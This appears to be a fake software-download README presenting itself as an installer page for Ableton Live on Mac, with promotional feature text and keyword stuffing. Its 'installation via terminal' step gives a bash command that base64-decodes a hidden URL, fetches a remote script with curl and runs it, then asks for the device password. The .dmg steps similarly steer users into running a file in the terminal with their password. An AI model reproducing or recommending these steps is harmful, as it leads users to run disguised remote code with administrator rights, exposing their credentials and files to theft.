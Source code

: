# Ableton Live Download Mac - Professional Music Production Software  

![Ableton Live Screenshot 1](https://static.macupdate.com/screenshots/267183/m/ableton-live-screenshot.png)  

---  

### 🔽 Download Ableton Live for Mac   

[![Download Now](https://img.shields.io/badge/Download_Ableton_Live-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/abletonlive) 

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

--- 

## What is Ableton Live for Mac?  

Ableton Live is a revolutionary digital audio workstation (DAW) developed specifically for macOS, offering an unparalleled music production experience. Unlike traditional DAWs, Ableton Live features two distinct views - the innovative Session View for spontaneous composition and the classic Arrangement View for linear editing. This dual approach has made it the software of choice for electronic music producers, film composers, and live performers worldwide.

The software supports up to 256 audio/MIDI tracks with unlimited scenes, providing incredible flexibility for both studio production and stage performance. Its built-in instruments including Analog, Operator, and Wavetable synthesizers, combined with professional effects like Echo, Reverb, and Glue Compressor, create a complete production environment. Ableton Live also features advanced time-stretching algorithms that maintain audio quality at any tempo, making it ideal for remixing and creative sound design.

For electronic musicians, the integrated Max for Live platform allows for creating custom instruments and effects, while the comprehensive MIDI mapping capabilities enable seamless integration with hardware controllers. The software's intelligent warping engine makes beat-matching and tempo adjustments effortless, while the spectral time display offers precise audio editing capabilities.

Recent versions have introduced significant improvements including comping features for audio recording, hybrid reverb combining algorithmic and convolution reverb, and enhanced MPE (MIDI Polyphonic Expression) support. The software is fully optimized for Apple Silicon chips, delivering exceptional performance even with large projects containing hundreds of tracks and effects.

![Ableton Live Screenshot 2](https://mac-cdn.softpedia.com/screenshots/Ableton-Live_1.jpg)

---  

## Key Features & Benefits  

- 🎵 Professional-grade music production tools  
- ⚡️ Optimized for macOS performance  
- 🎛️ Unique session and arrangement views  
- 🎹 Supports MIDI controllers and VST plugins  
- 🔊 Real-time audio manipulation  
- 🎧 Perfect for live performances and studio work  

Whether you're producing tracks, performing live, or designing sounds, Ableton Live offers unmatched creativity and flexibility.  

---  

## 🔍 Keywords  

Ableton Live for Mac, Ableton Live Mac Download, Ableton Live for Mac Download, Ableton Live Mac, Ableton Live Download Mac, Ableton Live Download for Mac, Ableton Live full version, Mac Download Ableton Live, Download Mac Ableton Live, Download Ableton Live Mac, Download Ableton Live for Mac

